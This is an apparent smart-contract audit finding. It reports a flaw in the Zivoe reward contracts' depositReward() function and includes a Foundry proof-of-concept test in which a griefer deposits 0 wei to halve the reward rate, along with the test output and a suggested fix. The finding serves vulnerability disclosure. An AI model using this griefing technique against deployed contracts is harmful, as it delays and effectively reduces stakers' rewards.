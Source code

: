 Petite Velvet Duck

high

# depositReward() function reduces rewardRate incorrectly causing delayed reward distribution and can be used by a griefer

## Summary
The `depositReward()` function in both `ZivoeRewards.sol` and `ZivoeRewardsVesting.sol` modifies the `rewardRate` incorrectly by reducing it more than it ought to. While this in itself is problematic in the normal flow of events, a griefer can further exploit this by depositing `0 wei` and continually delaying reward payout through a reduction in the `rewardRate`.

## Vulnerability Detail
Consider the following scenario:
- Sam has staked some tokens and then some rewards are added into the contract at timestamp `t`.

- Assume the `_rewardsToken` to be DAI which has a `rewardsDuration` of 100. Hence the current `periodFinish` is `t + 100`.

- Assume the amount of DAI added as reward to be `500`.

- At `t + 50` Sam can claim 50% of DAI rewards `= 250`, and ideally the remaining `250` should be claimable at `t + 100`.

- Suppose now that a griefer calls `depositReward()` at `t + 50` with `reward = 0 wei`. Note that 0 amount is allowed and also anyone can call `depositReward()`.
  - Since `block.timestamp` is still less than `t + 100`, the [else clause](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L361) is hit where the `rewardData[_rewardsToken].rewardRate` is is calculated by again dividing `reward + leftover` or `0 + 250` with `rewardsDuration` which is 100. We just halved the `rewardRate`.
  - Furthermore, outside the else clause on [L365](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L365) the `periodFinish` is pushed forward by `rewardsDuration` so that the rewardRate is in sync with the payout duration.

- As a result, if Sam now tries to claim his reward at `t + 100`, he will receive `125` and the remaining `125` fully claimable only at `t + 150`.

- While this was an extreme example, it's trivial to see that even in the normal flow of events when X amount of rewards are added at any `t` less than `t + 100`, the current approach of reducing & "normalizing" the `rewardRate` is incorrect.

## Impact
- Any delayed reward distribution is akin to loss of funds since the receiver could have invested it and earned additional interest had it not been delayed. 
- Griefer can keep on performing the attack in order to reduce the `rewardRate` continuously.

## Code Snippet
- https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L237
- https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L361

## Proof of Concept
Add the following test inside `zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol` and run via `forge test --rpc-url https://rpc.ankr.com/eth --mt test_t0x1c_depositReward -vv` to see the output which shows the halving of values:
```js
    function test_t0x1c_depositReward() public {

        uint256 t = block.timestamp;

        uint256 deposit = 1000 ether;

        // sam stakes some tokens
        assert(sam.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam))));
        sam.try_stake(address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam)));

        uint256 rewardEarnedInitial = stZVE.earned(address(sam), DAI);
        assertEq(rewardEarnedInitial, 0);

        // some reward is deposited at `t`
        depositReward_DAI(address(stZVE), deposit);
        (
            uint256 rewardsDuration,
            uint256 periodFinish,
            uint256 rewardRate,
            uint256 lastUpdateTime,
            uint256 rewardPerTokenStored
        ) = stZVE.rewardData(DAI);
        emit log_named_decimal_uint("rewardRate1", rewardRate, 14);
        uint256 oldRate = rewardRate;
        uint256 t_end = periodFinish;


        hevm.warp(t + (t_end - t)/2); // midway to `periodFinish`
        uint256 rewardEarnedHalfway = stZVE.earned(address(sam), DAI);
        
        // store a snapshot we can return to later
        uint256 snapshot = vm.snapshot();

        hevm.warp(t_end); // to `periodFinish`
        uint256 rewardEarned = stZVE.earned(address(sam), DAI);
        uint256 rewardEarnedDelta1 = rewardEarned - rewardEarnedHalfway;
        emit log_named_decimal_uint("rewardEarnedDelta1", rewardEarnedDelta1, 18);

        // Let's examine the contrasting case when griefer deposits 0 wei at halftime
        vm.revertTo(snapshot);
        depositReward_DAI(address(stZVE), 0); // @audit-info : griefer deposits 0 wei
        (
            rewardsDuration,
            periodFinish,
            rewardRate,
            lastUpdateTime,
            rewardPerTokenStored
        ) = stZVE.rewardData(DAI);
        emit log_named_decimal_uint("rewardRate2", rewardRate, 14);
        assertLe(rewardRate, oldRate / 2); // @audit : reward rate got reduced by half

        hevm.warp(t_end); // to `periodFinish`
        rewardEarned = stZVE.earned(address(sam), DAI);
        uint256 rewardEarnedDelta2 = rewardEarned - rewardEarnedHalfway;
        emit log_named_decimal_uint("rewardEarnedDelta2", rewardEarnedDelta2, 18);
        assertLt(rewardEarnedDelta2, rewardEarnedDelta1); // @audit : reward is reduced by half for this period (got delayed)
    }
```

<br>

Output:
```text
[PASS] test_t0x1c_depositReward() (gas: 430612)
Logs:
  rewardRate1: 3.85802469135802
  rewardEarnedDelta1: 499.999999999999390000
  rewardRate2: 1.92901234567901       <--------- got halved as compared to `rewardRate1`
  rewardEarnedDelta2: 249.999999999999695000  <--------- got halved as compared to `rewardEarnedDelta1`
```

## Tool used
Foundry

## Recommendation
In the above provided example when additional reward is deposited at `t + 50`, the calculation needs to make the following adjustments:
- For the duration of `t + 50` to `t + 100`, the total reward distributable is `125 + R` where `R` is the reward deposited at `t + 50`. Hence `rewardRate` would be `(125 + R) / 50`.
- For the duration of `t + 100` to `t + 150`, the remaining reward is `R / 2` and hence `rewardRate` ought to be `(R / 2) / 50`.

Effectively, the protocol needs to maintain the correct `rewardRate` for each specific duration.